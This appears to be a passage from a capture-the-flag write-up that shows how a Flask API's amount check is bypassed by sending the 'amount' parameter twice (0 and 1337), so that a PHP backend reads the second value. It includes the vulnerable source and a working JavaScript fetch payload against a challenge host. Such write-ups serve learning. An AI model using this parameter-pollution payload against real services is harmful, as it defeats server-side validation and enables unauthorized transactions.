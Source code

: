 So, doing basic boolean-algebra: `!(0 < x or x < 0) <=> !(0 < x) and !(x < 0) <=> x = 0`. So the only accepted value here is that `amount = 0`.
However when looking at the php-backend, we know that we have to set `$amount = 1337`.
So we now again have boolean-algebra: `x = 0 and x = 1337`, which is a very simple contradiciton. So this cannot possibly be the answer to this CTF, if it where, it would mathematically be unsolv...

```python
body = request.get_data() # reading the body
amount = request.form.get('amount', '') # reading form
account = request.form.get('account', '') # reading form

if not amount or not account:
    return response('All fields are required!'), 401

user = getUser(decoded_token.get('username'))

if (0 < int(amount) or int(amount) < 0): # using value from form-read
    return response('Not enough credits!'), 400

# call to php-backend here!
res = requests.post(f"http://{current_app.config.get('PHP_HOST')}/api/withdraw", 
                    headers={"content-type": request.headers.get("content-type")}, data=body) # passing body!

jsonRes = res.json()

return response(jsonRes['message'])
```

Don't tell me...

```javascript
data = new FormData();
data.append("account", "bla");

// setting amount twice
data.append("amount", 0);
data.append("amount", 1337);

r = await fetch("http://94.237.54.75:33881/api/withdraw", {
    "credentials": "include",
    "body": data,
    "method": "POST",
});

await r.text();
```

```json
{
  "message": "OK"
}
```

*Refreshes site*
